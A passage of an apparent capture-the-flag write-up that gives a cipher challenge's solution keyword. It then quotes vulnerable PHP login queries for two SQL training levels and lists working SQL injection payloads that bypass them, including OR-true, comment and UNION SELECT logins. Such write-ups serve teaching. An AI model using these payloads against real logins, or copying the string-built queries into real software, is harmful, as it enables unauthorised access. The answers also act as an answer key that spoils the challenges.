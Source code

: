```py
    doubleWord = split_len(doubleWords, 2)
    for d in doubleWord:
        if d not in map:
            map[d] = allChar[idx]
            idx = idx + 1
        singleCipher += map[d]
    singleCipher += ' '

print singleCipher
```

Congratulations. You decrypted this message successfully. Was not too difficult either, was it? Well, good job. Enter this keyword as solution: croeligsbsss.

Tool: https://quipqiup.com/

```
croeligsbsss
```


### Training: MySQL I (MySQL, Exploit, Training)
```php
$username = Common::getPostString('username');
$password = Common::getPostString('password', false);
...
$password = md5($password);
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
...
```

```
username=admin'or'1'='1
username=admin' --
```


### Training: MySQL II (MySQL, Exploit, Training)
```php
    $query = "SELECT * FROM users WHERE username='$username'";
    if (false === ($result = $db->queryFirst($query))) {
		return false;
	}
	### This is the new check ###
	if ($result['password'] !== $password) {
		return false;
	} #  End of the new code  ###
```

md5(NULL) = d41d8cd98f00b204e9800998ecf8427e

```
username=1' union select 1,'admin','d41d8cd98f00b204e9800998ecf8427e&password=
```


